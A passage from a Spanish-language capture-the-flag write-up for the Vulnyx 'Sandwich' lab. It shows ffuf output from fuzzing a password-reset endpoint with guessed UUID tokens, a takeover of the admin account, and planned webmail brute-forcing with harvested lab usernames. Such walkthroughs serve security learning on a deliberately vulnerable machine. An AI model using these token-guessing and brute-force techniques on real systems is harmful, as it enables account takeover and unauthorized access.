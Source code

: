 ```bash
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v2.1.0-dev
________________________________________________

 :: Method           : POST
 :: URL              : http://sandwich.nyx/resetpassword.php
 :: Wordlist         : FUZZ: /home/kali/CTFs/Vulnyx/Sandwich/uuids.txt
 :: Header           : Content-Type: application/x-www-form-urlencoded
 :: Data             : token=FUZZ&new_password=lenam&confirm_password=lenam
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200-299,301,302,307,401,403,405,500
 :: Filter           : Response size: 420
________________________________________________

2299c1c6-09ca-11f0-8069-080027b218c8 [Status: 200, Size: 408, Words: 57, Lines: 16, Duration: 640ms]
229c74ac-09ca-11f0-8069-080027b218c8 [Status: 200, Size: 408, Words: 57, Lines: 16, Duration: 1365ms]
229e2ffe-09ca-11f0-8069-080027b218c8 [Status: 200, Size: 408, Words: 57, Lines: 16, Duration: 64ms]
:: Progress: [290361/290361] :: Job [1/1] :: 1388 req/sec :: Duration: [0:02:32] :: Errors: 0 ::
```

Vemos que se ha modificado la contraseña de tres usuarios: los UUIDs de nuestro usuario que ya teníamos y un tercero que seguramente será del usuario admin. lo

### Fuerza bruta en el webmail

Accedemos con el usuario `admin@sandwich.nyx` y la contraseña `lenam` a http://sandwich.nyx. 

Nos encontramos con la misma página de generación y guardado de sándwiches, pero además hay un enlace para descargar los sándwiches de todos los usuarios. 

![alt text](/assets/sandwich/image-4.png)

Descargamos un archivo CSV con todas las configuraciones de sándwich guardadas por todos los usuarios registrados. 📥 Utilizamos esta lista de usuarios para hacer fuzzing en el webmail.

Como sabemos que para registrarse aquí es necesario tener un correo electrónico en `webmail.sandwich.nyx`, intentamos hacer fuerza bruta con estos usuarios y el wordlist de `10k-most-common.txt` en el webmail.

Listado de usuarios que aparecen en el PDF descargado de `sandwich.nyx`.  📋

```text
ll104567_9q@sandwich.nyx
suraxddq_tw@sandwich.nyx
xerosec_w5@sandwich.nyx
j4ckie_x5@sandwich.nyx
matthygd_x@sandwich.nyx
```
